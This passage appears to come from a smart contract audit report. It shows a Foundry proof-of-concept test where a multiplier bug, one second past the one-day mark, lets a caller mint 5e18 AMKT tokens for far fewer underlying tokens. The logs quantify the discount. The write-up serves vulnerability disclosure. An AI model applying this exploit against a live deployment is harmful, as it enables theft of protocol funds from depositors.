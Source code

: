 ```solidity
        console.log(currMul);
    }
}
```

```
Running 2 tests for test/Zach.t.sol:ZachTest
[PASS] testZ__CurrentMultiplierAt1Day() (gas: 7212)
Logs:
  999972739191162964

[PASS] testZ__CurrentMultiplierAt1DayPlus1() (gas: 7627)
Logs:
  11573443045433
```

As we can see, the `currentMultiplier` has decreased from 0.99e18 to 0.11e14, an 86400x decrease.

Now, let's step back and look at how this can be used to steal funds from the protocol. The following test can be dropped into `Issuance.t.sol` and run with `forge test --match-function testZ__IssuanceDiscounted`:

```solidity
function testZ__IssuanceDiscounted() public {
    seedInitial(10);

    vm.warp(block.timestamp + 1 days);

    TokenInfo[] memory realUnits = vault.realUnits();
    uint256[] memory startingBalances = new uint256[](realUnits.length);
    for (uint256 i; i < realUnits.length; i++) {
        startingBalances[i] = IERC20(realUnits[i].token).balanceOf(address(this));
    }

    uint snapshotId = vm.snapshot();

    // do the test at the 1 day mark
    mint(5e18);

    uint256[] memory correctSpend = new uint256[](realUnits.length);
    for (uint256 i; i < realUnits.length; i++) {
        correctSpend[i] = startingBalances[i] - IERC20(realUnits[i].token).balanceOf(address(this));
    }

    vm.revertTo(snapshotId);
    vm.warp(block.timestamp + 1);

    // redo the test at the 1 day + 1 second mark
    mint(5e18);

    for (uint256 i; i < realUnits.length; i++) {
        uint amountSpent = startingBalances[i] - IERC20(realUnits[i].token).balanceOf(address(this));
        console.log(realUnits[i].token);
        console.log("Correct Amount Spent: ", correctSpend[i]);
        console.log("Actual Amount Spent: ", amountSpent);
        console.log("Discount Rate: 1 / ", correctSpend[i] / amountSpent);
    }
}
```
This test copies the logic used by the existing test for issuance, but compares the amount of tokens spent to mint 5e18 AMKT at the 1 day mark to the 1 day plus 1 second mark.

